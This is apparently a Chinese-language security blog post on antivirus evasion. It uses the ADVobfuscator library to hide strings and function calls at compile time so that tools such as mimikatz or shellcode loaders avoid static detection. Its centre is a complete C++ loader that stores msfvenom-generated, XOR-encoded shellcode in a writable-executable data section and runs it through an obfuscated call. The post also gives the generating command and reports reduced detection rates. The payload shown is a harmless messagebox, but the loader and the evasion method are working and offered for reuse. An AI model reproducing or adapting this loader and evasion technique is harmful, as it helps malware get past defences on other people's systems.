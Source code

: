 # 编译时混淆字符串&函数调用

## 简介

在做免杀的时候发现了一个宝藏项目[ADVobfuscator](https://github.com/andrivet/ADVobfuscator)，这个项目能在编译时混淆函数调用和字符串，通常字符串会被杀毒软件作为比较典型的特征，如果我们能在编译时混淆这些东西，那么会对杀毒软件判断的静态特征产生很大程度的避免，同时混淆函数调用也能对行为查杀产生一定程度的影响。

mimikatz特征：

![](../.gitbook/assets/image%20%28129%29.png)

## 使用

在配置完之后，我们可以直接查看混淆和无混淆编译出来后的结果。

未混淆：

```text
printf("hello world\n");
```

![](../.gitbook/assets/image%20%28133%29.png)

混淆:

```text
 printf(OBFUSCATED("hello world\n"));
```

![](../.gitbook/assets/image%20%28131%29.png)

同样我们可以同类似的方法来测试函数混淆，使用被杀烂的加载器编写方式，然后去在线查毒对比效果。

```text

#if !defined(DEBUG) || DEBUG == 0
#define BOOST_DISABLE_ASSERTS
#endif

#pragma warning(disable: 4503)

#define ADVLOG 1

#include "Log.h"
#include "MetaString.h"
#include "ObfuscatedCall.h"
#include "ObfuscatedCallWithPredicate.h"
#include <Windows.h>
#include <stdio.h>

#pragma comment(linker, "/section:.data,RWE")   
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")  
#pragma comment(linker, "/INCREMENTAL:NO") 
using namespace std;
using namespace andrivet::ADVobfuscator;

char shellcode[] = "\xeb\x23\x5b\x89\xdf\xb0\xb5\xfc\xae\x75\xfd\x89\xf9\x89\xde"
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x2a\x1d\x74\x08\x46\x80\x3e"
"\xb5\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x11\xb5\xfa"
"\x32\x4a\x98\xce\xa1\xca\xed\xbf\x64\xec\x98\xe8\x98\xcf\x9b"
"\x17\x21\x16\x56\x77\x90\x2e\x0c\x41\x65\x19\x57\x91\x2f\xca"
"\x64\xff\xfa\xfb\xee\xf0\xf9\xc9\xee\xee\xee\x1e\xca\xc7\xf5"
"\x85\xc7\x6a\x3a\xea\x2f\xcc\xac\x69\x2f\xd7\x7a\x95\x6f\x2e"
"\x95\x68\x12\x95\x68\x02\x95\x58\x16\x95\x60\x3e\x95\x28\x26"
"\x51\x06\x6b\xed\x47\x1f\xcf\xe1\xff\x7e\x95\x72\x3a\x3a\x95"
"\x5b\x22\x95\x4a\x36\x66\x1f\xf4\x95\x54\x06\x95\x44\x3e\x1f"
"\xf5\xfd\x2a\x57\x95\x2a\x95\x1f\xf0\x2f\xe1\x2f\xde\xe2\xb2"
"\x9a\xde\x6a\x19\xdf\xd1\x13\x1f\xd9\xf5\xea\x25\x62\x3a\x36"
"\x6b\xff\x95\x44\x3a\x1f\xf5\x78\x95\x12\x55\x95\x44\x02\x1f"
"\xf5\x95\x1a\x95\x1f\xf6\x97\x5a\x3a\x02\x7f\xdd\xac\x16\x37"
"\xca\x97\xfb\x97\xdc\x76\x90\x50\x10\xf2\x4c\xf6\x81\xe1\xe1"
"\xe1\x97\x5b\x1a\xa5\x60\xc6\xfc\x6d\x99\x02\x3a\x4c\xf6\x90"
"\xe1\xe1\xe1\x97\x5b\x16\x76\x72\x72\x3e\x5f\x76\x2d\x2c\x30"
"\x7a\x76\x6b\x6d\x7b\x6c\x2e\xc5\x96\x42\x3a\x14\x97\xf8\x48"
"\xe1\x4b\x1a\x97\xdc\x4e\xa5\xb6\xbc\x53\xa2\x99\x02\x3a\x4c"
"\xf6\x41\xe1\xe1\xe1\x76\x71\x66\x46\x3e\x76\x7f\x79\x7b\x5c"
"\x76\x53\x7b\x6d\x6d\x2f\xc5\x96\x42\x3a\x14\x97\xfd\x76\x46"
"\x3e\x3e\x3e\x76\x53\x4d\x58\x3f\x76\x6c\x71\x73\x3e\x76\x71"
"\x32\x3e\x78\x76\x56\x7b\x72\x72\x2f\xd7\x96\x52\x3a\x0e\x97"
"\xff\x2f\xcc\x4c\x4d\x4f\x4c\xe1\xce\x2f\xde\x4e\xe1\x4b\x16"
"\x0c\x41\x2a\x1d";

void exec()
{
    ((void(*)(void)) & shellcode)();
}

int main(int, const char* [])
{
    OBFUSCATED_CALL0(exec);
    //exec();
    return 0;
}

```

![](../.gitbook/assets/image%20%28134%29.png)

```text
sfvenom -p windows/messagebox -e x86/xor_dynamic -i 2 -f c
```

查杀效果：

![](../.gitbook/assets/image%20%28128%29.png)

![](../.gitbook/assets/image%20%28132%29.png)

对于这种被杀烂的编写方式还是有比较明显的免杀效果的。

github:[https://github.com/idiotc4t/ObfuscationStrings-new](https://github.com/idiotc4t/ObfuscationStrings-new)

## LINKS

{% embed url="https://github.com/andrivet/ADVobfuscator" %}



